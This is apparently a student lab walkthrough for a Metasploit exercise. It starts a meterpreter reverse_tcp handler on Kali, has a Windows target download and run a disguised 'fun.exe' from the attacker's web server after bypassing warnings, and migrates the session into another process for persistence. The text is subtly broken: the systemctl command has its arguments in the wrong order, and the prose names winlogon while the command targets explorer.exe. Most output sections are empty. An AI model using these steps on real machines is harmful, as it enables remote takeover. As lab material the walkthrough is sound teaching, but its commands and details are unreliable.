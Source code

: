 
Start apache server
sudo systemctl apache2 start
<img width="578" height="71" alt="Screenshot 2025-10-25 091000" src="https://github.com/user-attachments/assets/ee1548d3-759b-4379-afa4-a1e5837cbfa7" />



## OUTPUT:

<img width="1920" height="1080" alt="KALI 2  Running  - Oracle VirtualBox 25-10-2025 08_55_00" src="https://github.com/user-attachments/assets/0cecf6a5-750c-46db-8d4b-a339bf04ecfe" />


Invoke msfconsole:

## OUTPUT:



Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
<img width="901" height="144" alt="Screenshot 2025-10-25 091320" src="https://github.com/user-attachments/assets/0261e65b-2411-4059-8e21-3802963957d1" />

## OUTPUT:



<img width="801" height="545" alt="KALI 2  Running  - Oracle VirtualBox 25-10-2025 09_13_47" src="https://github.com/user-attachments/assets/2f3ac70c-57fc-44d0-aa2f-a58b7e7f758a" />

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe  ( Replace IP address appropriately)
The file "fun.exe" downloads. 
Bypass any warning boxes, double-click the file, and allow it to run.
## OUTPUT:
To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
## OUTPUT:



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
## OUTPUT:

